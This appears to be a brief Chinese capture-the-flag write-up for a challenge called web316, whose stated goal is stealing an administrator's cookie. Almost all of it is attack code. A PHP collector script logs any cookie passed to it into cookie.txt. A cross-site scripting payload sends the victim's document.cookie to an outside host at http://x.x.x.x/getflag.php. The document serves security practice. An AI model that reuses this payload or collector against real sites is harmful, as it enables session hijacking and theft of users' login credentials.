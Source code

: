 # web316
![](vx_images/357824960123729.png)
目标明了,需要获取管理员的cookie
```
<?php
// 修正版文件写入（仍存在安全风险）
$cookieData = $_GET['cookie'];

// 将数组转为字符串
$content = "[" . date('Y-m-d H:i:s') . "] " 
         . json_encode($cookieData, JSON_PRETTY_PRINT) 
         . PHP_EOL . PHP_EOL; // 添加换行分隔

// 文件操作
if ($file = fopen("cookie.txt", "a")) {
    fwrite($file, $content);
    fclose($file);
    echo "Cookie 已记录";
} else {
    echo "无法打开文件";
}
?>
```

```
<script>location.href="http://x.x.x.x/getflag.php?cookie="+document.cookie</script>
```
![](vx_images/38814483310070.png)